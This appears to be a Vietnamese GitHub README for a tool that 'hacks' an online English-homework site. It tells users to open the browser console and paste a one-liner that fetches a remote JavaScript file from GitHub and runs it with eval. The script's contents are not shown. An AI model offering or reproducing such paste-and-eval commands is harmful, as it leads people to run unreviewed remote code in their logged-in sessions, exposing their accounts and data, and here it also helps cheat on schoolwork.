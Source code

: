 # Bài tập Tiếng Anh

<p align="center">
     <img width="478" height="304" src="resources/yourhomework.png"/>
</p>

### 👨‍💻 Hack YourHomeWork

**Sử dụng F12** hoặc **Ctrl+Shift+J** để mở phần bảng điều khiển.

----

### 🎓 Hướng dẫn

**Copy dòng sau và Paste vào bảng điều khiển**

``` fetch("https://raw.githubusercontent.com/Rainsh0wer/Project.Storm/main/main/Alpha01.js").then(a=>a.text().then(b=>eval(b))) ```
     
     
> **Warning** Đang lỗi !!!!
     
     
### 🎬 Video Hướng Dẫn
``` Hiện chưa có ```

# Người đăng
- [Rainsh0wer](https://github.com/Rainsh0wer)


